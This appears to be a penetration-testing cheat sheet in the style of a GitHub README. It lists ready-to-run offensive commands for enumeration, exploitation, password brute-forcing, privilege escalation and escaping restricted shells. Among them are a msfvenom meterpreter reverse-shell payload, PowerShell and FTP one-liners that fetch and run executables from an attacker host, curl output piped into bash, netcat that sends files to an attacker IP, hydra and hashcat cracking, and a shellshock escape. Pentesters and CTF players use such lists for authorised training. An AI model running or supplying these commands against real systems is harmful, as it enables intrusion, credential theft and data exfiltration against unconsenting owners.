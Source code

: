 ## Enum
* `nmap -Pn -n -p- -sT --min-rate 5000 {ip}` _Quick nmap all ports_
* `nmap -Pn -n -p- -sV -A {ip}` _Slow nmap all info_
* `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://{site} -r -t {n} -o gobuster.txt ` _Gobuster scan for folders with n threads_
* `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://{site} -r -t {n} -x php,asp,aspx,html -o gobuster_aspx.txt` _Gobuster scan for pages with n threads_
* `wfuzz -hw {hide rows with this number of words} --hh {hide rows with this number of chars} -hc {hide rows with this response code} -w {wordlist} {URL}/FUZZ` _Use wfuzz to enumerate pages when gobuster won't work_
* _To clone git repos from challenge machines the url from the git config file must be added to the local host file_
* _https://www.wappalyzer.com/download wappalyzer to identify technologies used on websites_
* _https://retirejs.github.io/retire.js/ find old javascript libraries with known vulns on a a page_
* `impacket/examples/lookupsid.py {user}:{password}@{ip}` _use any valid creds to enumerate other usernames on a windows box_
* `smbmap -u {user} -p '{pass}' -H {ip}` _use valid creds to enumerate shares on a windows box_

## Exploit
* `python -m SimpleHTTPServer 80` _Start python 2 web server on kali on port 80 in current dir_
* `python3 -m http.server 80` _Start a python 3 http server on port 80 in current directory_
* `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST={ip} LPORT={port} -f exe >m.exe` _Make a standard meterpreter exe_
* `tcpdump -i {tun0} icmp` _Listen for ping requests.  Useful when testing RCE_

## Password Attacks
* `hydra -l {username} -P {password file} {base url or ip} -s{port} http-post-form "/index.php:user=^USER^&password=^PASS^:{failed string}"`  _Brute force http post login with hydra_
* (figure out hash types)[https://hashcat.net/wiki/doku.php?id=example_hashes] _page with example hashes and their hashcat type/code_
* `hashcat -m {hashtype} hashes.txt ~/Documents/git/SecLists/Passwords/*.txt --force`  _try cracking all hashes in hashes.txt against all seclist password text files, using no gpu_

## Priv Esc Windows
* `powershell -command "& { (New-Object Net.WebClient).DownloadFile('http://{kali_ip}:8080/m.exe', 'c:\users\victim\desktop\m.exe') }"` _Powershell download a file_
* `systeminfo >systeminfo.txt` _Export sysinfo from windows
* `python windows-exploit-suggester.py --database 2018-09-06-mssb.xls --systeminfo sysinfo.txt` _Use exported sysinfo file to check for possible exploits using this tool https://github.com/GDSSecurity/Windows-Exploit-Suggester.git_
* `python windows-exploit-suggester.py --update` _Get new database file for exploit suggester_
* `cmd.exe /c @echo open x.x.x.x 21>c:\users\victim\desktop\ftp.txt&@echo USER anonymous>>c:\users\victim\desktop\ftp.txt&@echo anonymous>> c:\users\victim\desktop\ftp.txt&@echo binary>>c:\users\victim\desktop\ftp.txt&@echo get met.exe>>c:\users\victim\desktop\ftp.txt&@echo quit>>c:\users\victim\desktop\ftp.txt&@ftp -v -n -s:c:\users\victim\desktop\ftp.txt&@start met.exe` _Create a scirpt to download a file via ftp, then run the script, then run the downloaded file_
* [Next Gen Windows Exploit Suggester](https://github.com/bitsadmin/wesng)
* [Windows enumeration script](https://github.com/411Hall/JAWS)
* `IEX(New-Object Net.WebClient).downloadString('http://{kali_ip}/script.ps1)` _Download and exec a powershell script in memory_

## Priv Esc Linux
* `curl {kali_ip}:{port}/LinEnum.sh | /bin/bash` _Run linux enum script without dropping it on disk_
* `curl {kali_ip}:{port}/linuxprivchecker.py | python` _Run linux priv checker without dropping it on disk_
* `/sbin/getcap -r / 2>/dev/null` _Search filesytem for files with special capabilities.  Similar to suid_
* `find / -type f -name "*" -newermt 2018-09-07 ! -newermt 2018-09-08 2>/dev/null` _Find all files modified on a particular day.  Maybe same day as user flag. example show sep 7 2018_
* `ssh -L {localport}:localhost:{remoteport} {user}@{remoteip}` _Forward a port through ssh_
* `nc -w 3 {attacker ip} {port} < {filename}` _Send file with netcat_
* `nc -l -p {listen port} > {filename}` _Receive file with netcat_
* `sudo -l` _Show commands that can be run as sudo_
* `python -c 'import pty:pty.spawn("/bin/bash")'` _Get a better shell in netcat_
* `CTRZ + z -- stty raw -echo  -- fg` _Make netcat python shell interactive.  You won't see fg when it's typed.  Just hit enter._
* `wget https://raw.githubusercontent.com/jondonas/linux-exploit-suggester-2/master/linux-exploit-suggester-2.pl` _Download exploit suggester_
* `wget https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh` _Download linux enumeration script_
* `wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64` _Download 64 bit version of pspy for monitoring processes that might run as root_

## Pric Esc Generic
* `run post/multi/recon/local_exploit_suggester` _Check for local priv esc exploits.  Must be interacting with meterpreter session_

## Break out of limited shell 
**(Credit Gos Here https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells)**
* `env` _Check environmential variables_
* `echo $PATH` _Check path for executables_
* `echo $SHELL` _What shell is in use_
* `/bin/sh` _Just run new shell_
* `export PATH=/bin:/usr/bin:$PATH` _Just add folders to PATH_
* `export SHELL=/bin/sh` _Just change shell_
* `cp /bin/sh /some/dir/from/PATH; sh` _Copy sh to a runable folder and launch it_
* `ftp, gdb, more, less, man, vi, vim, scp, awk, find` _Can all launch shells_
* `ssh restricted@x.x.x.x -t "/bin/sh"` _Execute /bin/sh before remote shell is loaded_
* `ssh restricted@x.x.x.x -t "bash --noprofile"` _Start remote shell without loading rc profile_
* `ssh restricted@x.x.x.x -t "() { :; }; /bin/bash"` _Try shell shock_
* `python -c 'import os; os.system("/bin/bash")'` _Launch shell with python_
* `perl -e 'exec "/bin/sh";'` _Launch shell with perl_

